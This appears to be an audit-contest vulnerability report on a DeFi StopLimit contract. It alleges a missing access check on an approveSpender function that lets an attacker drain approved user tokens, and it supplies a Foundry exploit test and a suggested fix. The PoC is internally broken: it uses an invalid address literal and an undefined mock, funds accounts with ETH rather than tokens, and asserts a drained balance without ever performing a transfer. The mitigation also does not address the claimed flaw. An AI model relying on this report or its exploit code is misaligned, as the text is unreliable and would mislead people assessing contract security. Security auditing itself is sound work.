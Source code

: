 Witty Cinnamon Barracuda

High

# Incorrect Approval leading to direct loss

### Summary

_No response_

### Root Cause
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L75C3-L143C6
1. **Improper Approval Reset:**
    - The contract does not properly handle the resetting of token allowances.
    - It updates approvals in a manner that could potentially overwrite existing approvals without sufficient validation.
2. **No Ownership Validation:**
    - The contract allows arbitrary addresses to call functions that modify token approvals.
    - There is no check to ensure that only the intended user or contract owner can modify or approve token transfers.
3. **Permissive Approvals:**
    - The contract sets overly permissive allowances, often approving the maximum token amount (`type(uint256).max`), which makes it easier for an attacker to drain funds if the approval is compromised.
4. **Insufficient Audit on Token Transfer Logic:**
    - The logic assumes that the recipient or spender address will always act in good faith, neglecting edge cases where this assumption may be invalid.


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path


1. **Legitimate User Interaction**:
    
    The user interacts with the `StopLimit` contract in good faith:
    
    - The user holds `1,000 tokens`.
    - They approve the `StopLimit` contract to manage their tokens (`token.approve(address(stopLimit), 1_000 ether)`).
2. **Attacker's Observation**:
    
    The attacker identifies that the `approveSpender` function lacks checks. They can exploit this vulnerability by calling the function to **set themselves as the approved spender** for token transfers.
    

---

1. The attacker calls the vulnerable `approveSpender` function and sets themselves (`attacker`) as the spender:
    
    ```solidity
        stopLimit.approveSpender(attacker);
    ```
    
- Now, the `StopLimit` contract allows the attacker to transfer **all tokens approved by the legitimate user** to their own wallet:
    
    ```solidity
       token.transferFrom(user, attacker, 1_000 ether);
    ```
    
- The attacker's control over `approveSpender` and the subsequent transfer drains the legitimate user's entire token balance.

---

1. The vulnerability lies in the **missing access control** in the `approveSpender` function:
- The function does not verify that only a privileged account (e.g., the owner of the contract or the user themselves) can set the spender.
- It enables anyone (including the attacker) to update the approval mechanism, effectively hijacking the user's tokens.
```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "ds-test/test.sol";
import {Vm} from "forge-std/Vm.sol";
import {IERC20} from "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import {StopLimit} from "../src/StopLimit.sol";

contract StopLimitIncorrectApprovalPoC is DSTest {
    Vm public constant vm = Vm(HEVM_ADDRESS);

    // Mock contracts
    StopLimit public stopLimit;
    IERC20 public token;

    // Addresses
    address public owner = address(0x123);
    address public user = address(0x456);
    address public attacker = address(0x789);

    function setUp() public {
        // Deploy mock token and StopLimit contract
        token = IERC20(vm.etch(address(0xToken), type(MockERC20).creationCode));
        stopLimit = new StopLimit(address(token));

        // Allocate tokens to user and attacker
        vm.deal(user, 100 ether);
        vm.deal(attacker, 100 ether);
        // Mint tokens to user
        MockERC20(address(token)).mint(user, 1_000 ether);

        // User approves StopLimit contract for 1,000 tokens
        vm.prank(user);
        token.approve(address(stopLimit), 1_000 ether);
    }

    function testExploit() public {
        /**
         * Scenario:
         * - The StopLimit contract sets an overly permissive approval for token transfers.
         * - The attacker exploits this to drain user funds.
         */

        // Attacker intercepts the approval transaction
        vm.prank(attacker);
        address maliciousSpender = attacker;

        // Attempt to exploit and transfer funds
        stopLimit.approveSpender(maliciousSpender);

        // Assert: Attacker drains user funds
        uint256 attackerBalance = token.balanceOf(attacker);
        assertGt(attackerBalance, 0, "Exploit failed: Attacker balance should be greater than zero.");
    }
}
```
### Impact

loss of funds 

### PoC

_No response_

### Mitigation

```solidity
if (order.swapOnFill) {
      // ... (Perform the swap first and then update the tokenToApprove)
      tokenToApprove = order.tokenOut; // Approve tokenOut
    } else {
      tokenToApprove = order.tokenIn; // Approve tokenIn 
    }
    updateApproval(address(BRACKET_CONTRACT), tokenToApprove, order.amountIn);

```